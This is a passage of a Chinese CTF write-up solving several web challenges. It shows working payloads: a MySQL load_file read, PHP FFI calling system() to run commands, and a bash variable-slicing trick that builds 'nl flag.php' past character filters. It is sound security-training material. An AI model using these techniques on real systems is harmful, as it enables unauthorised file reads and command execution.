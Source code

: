 文件名是flag36.txt

这题需要利用mysql的`load_file`读文件

```php
try {
  $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');
  foreach($dbh->query('select load_file("/flag36.txt")') as $row) {
      echo($row[0])."|";
  }
  $dbh = null;
} catch (PDOException $e) {
  echo $e->getMessage();
  die();
}exit(0);
```

 ## web 76

同web 75 ,就是flag文件名不一样



## web 77

> FFI（Foreign Function Interface），即外部函数接口，是指在一种语言里调用另一种语言代码的技术。PHP的FFI扩展就是一个让你在PHP里调用C代码的技术。

通过FFI，可以实现调用system函数，从而将flag直接写入一个新建的文本文件中，然后访问这个文本文件，获得flag

```
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
exit();
```



## web 118

知识点：Linux中内置的bash变量

类似月饼杯web3  ，不过比月饼杯多过滤了数字 月饼杯的`payload:${PATH:14:1}${PATH:5:1} ????.??? `构造出的是 nl flag.php

该题我们还是构造`nl flag.php`

 $PATH的最后一位是n $PWD的最后一位 也就是 /var/www/html的最后一位是l
在linux中可以用~获取变量的最后几位，而字母起到的作用是和0相同的，所有${PATH:~A}其实就是${PATH:~0}

![](http://img.npfs06.top/20210225143606.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



> payload: code=${PATH:~A}${PWD:~A} ????.???



## web 119
